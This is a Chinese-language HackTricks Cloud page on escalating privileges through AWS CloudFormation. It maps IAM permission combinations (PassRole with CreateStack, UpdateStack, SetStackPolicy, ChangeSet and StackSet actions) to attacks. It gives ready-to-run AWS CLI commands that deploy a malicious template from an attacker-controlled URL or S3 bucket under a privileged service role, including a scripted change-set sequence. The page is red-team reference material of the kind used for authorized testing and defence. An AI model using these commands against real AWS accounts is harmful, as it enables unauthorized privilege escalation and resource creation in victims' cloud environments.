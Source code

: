 # AWS - CloudFormation 权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上 **关注** 我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## cloudformation

有关cloudformation的更多信息，请查看：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

拥有 **`iam:PassRole` 和 `cloudformation:CreateStack` 权限的攻击者可以通过制作一个自定义模板的 **CloudFormation堆栈**，该模板托管在他们的服务器上，以执行指定角色权限下的操作，可能导致未授权的资源创建或访问权限提升。

**命令示例：**
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
在接下来的页面中，您将看到一个**利用示例**，它额外授予了权限 **`cloudformation:DescribeStacks`**：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在影响：** 提升至指定的 cloudformation 服务角色权限。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

在这种情况下，您可以**滥用现有的 cloudformation 堆栈**，通过更新它来提升权限，如前一个场景所示：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来**给自己 `UpdateStack` 权限**对一个堆栈进行攻击。

**潜在影响：**提升到指定的 cloudformation 服务角色权限。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

如果你有这个权限但**没有 `iam:PassRole`**，你仍然可以**更新堆栈**并滥用它们已经附加的**IAM 角色**。检查前一节的利用示例（只是在更新时不指定任何角色）。

`cloudformation:SetStackPolicy` 权限可以用来**给自己 `UpdateStack` 权限**对一个堆栈进行攻击。

**潜在影响：**提升到已经附加的 cloudformation 服务角色权限。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

拥有**传递角色和创建 & 执行 ChangeSet 权限**的攻击者可以**创建/更新一个新的 cloudformation 堆栈滥用 cloudformation 服务角色**，就像使用 CreateStack 或 UpdateStack 一样。

以下利用是**CreateStack 利用的**[**变体**](./#iam-passrole-cloudformation-createstack)，使用**ChangeSet 权限**来创建堆栈。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来**给自己 `ChangeSet` 权限**对一个堆栈进行攻击。

**潜在影响：** 提升至 cloudformation 服务角色的权限。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

这种方法类似于之前的方法，不通过传递 **IAM 角色**，因此你可以直接**滥用已经附加的角色**，只需修改参数：
```
--change-set-type UPDATE
```
**潜在影响：** 提升至已连接的cloudformation服务角色。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻击者可以滥用这些权限来创建/更新StackSets，以滥用任意cloudformation角色。

**潜在影响：** 提升至cloudformation服务角色。

### `cloudformation:UpdateStackSet`

攻击者可以在没有passRole权限的情况下滥用此权限，更新StackSets以滥用所附加的cloudformation角色。

**潜在影响：** 提升至所附加的cloudformation角色。

## 参考资料

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在HackTricks中看到您的**公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享您的黑客技巧。

</details>
